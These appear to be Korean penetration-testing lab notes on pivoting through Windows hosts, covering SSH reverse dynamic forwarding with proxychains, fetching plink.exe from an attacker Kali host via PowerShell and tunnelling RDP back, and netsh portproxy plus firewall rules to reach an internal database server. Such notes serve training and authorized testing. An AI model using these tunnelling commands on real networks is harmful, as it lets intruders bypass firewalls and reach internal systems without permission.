 ## ssh.exe

**ssh 유틸리티 경로**
```jsx
%systemdrive%\\Windows\\System32\\OpenSSH
```

**ssh 위치 찾기 및 버전 확인 (7.6 이상인지)**
```jsx
where ssh
ssh.exe -V
```

**동적 포트포워딩 생성**
```jsx
ssh -N -R 9998 kali@192.168.118.4
```

**kali에서 포트 열렸는지 확인**
```jsx
ss -ntplu
```

**proxychains 설정 확인**
```jsx
tail /etc/proxychains4.conf
#...
#socks5 127.0.0.1 9998
```

**내부망에 postgres 연결**
```jsx
proxychains psql -h 10.4.50.215 -U postgres
```

## Plink

plink를 사용하여 인바운드 정책을 우회하고 RDP를 사용하는 시나리오
![[Pasted image 20250714142001.png]]

**칼리에서 plink 복사**
```jsx
sudo cp /usr/share/windows-resources/binaries/plink.exe /var/www/html/
```

**plink 다운로드**
```jsx
powershell wget -Uri <http://192.168.118.4/plink.exe> -OutFile C:\\Windows\\Temp\\plink.exe
```

**plink로 원격 포트 포워딩 설정 (-l: 사용자 이름, -pw: 패스워드)**
```jsx
C:\\Windows\\Temp\\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4
```

**kali에서 포트 열렸는지 확인 (9833)**
```jsx
ss -ntplu
```

**kali에서 RDP 연결**
```jsx
xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:127.0.0.1:9833
```

## Netsh

윈도우의 내장 방화벽 구성 도구인 **Netsh** 를 사용하여 포트포워딩을 만들려면 **관리자 권한**이 필요하다.
![[Pasted image 20250714142028.png]]

**외부 인터페이스(192.168.50.64:2222)에서 수신하고 PGDATABASE01(10.4.50.215:22)로 패킷 전달**
```jsx
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.50.64 connectport=22 connectaddress=10.4.50.215
```

**로컬 IP 주소(localip=192.168.50.64) 를 사용하는 인터페이스의 로컬 포트(localport=2222) 에서 인바운드 연결(dir=in)을 허용**
```jsx
netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.50.64 localport=2222 action=allow
```

**실행 후 윈도우즈에서 작동중인지 확인**
```jsx
netstat -anp TCP | find "2222"
netsh interface portproxy show all
```

**칼리에서 2222포트에 접근 가능한지 확인**
```jsx
sudo nmap -sS 192.168.50.64 -Pn -n -p2222
```

**PGDATABASE01에 ssh 연결**
```jsx
ssh database_admin@192.168.50.64 -p2222
```

**방화벽 규칙 삭제 및 포트포워딩 삭제**
```jsx
netsh advfirewall firewall delete rule name="port_forward_ssh_2222"
netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.50.64
```